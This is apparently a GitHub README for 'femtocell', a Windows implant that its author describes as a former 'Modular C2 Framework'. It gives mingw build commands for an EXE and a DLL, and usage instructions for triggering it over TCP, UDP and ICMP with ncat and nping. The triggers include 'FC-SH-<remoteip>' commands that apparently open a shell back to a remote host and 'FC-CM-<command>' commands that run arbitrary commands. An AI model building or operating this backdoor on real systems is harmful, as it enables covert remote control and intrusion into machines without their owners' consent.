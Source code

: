 # femtocell
This was supposed to be a "Modular C2 Framework"
Now it's not.
It's way cooler now though. Trust me.

## Building
Executable: `x86_64-w64-mingw32-gcc *.c -lws2_32 -o femtocell.exe`

_DLL: `x86_64-w64-mingw32-gcc *.c -D _DLL -shared -lws2_32 -o femtocell.dll`

`-D _DEBUG` set for debugging.

## Usage
### TCP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`

`> FC-SH-<remoteip>`

`> FC-CM-<command>`

### UDP
`ncat -lvp 2628`

`ncat -p 6006 <ip> <port>`

`> FC-SH-<remoteip>`

`> FC-CM-<command>`

### ICMP
`sudo nping 192.168.183.152 --icmp --data-string "FC-SH-192.168.10.162 " -c 1 --icmp-code 1`

**include a character after the IP address**
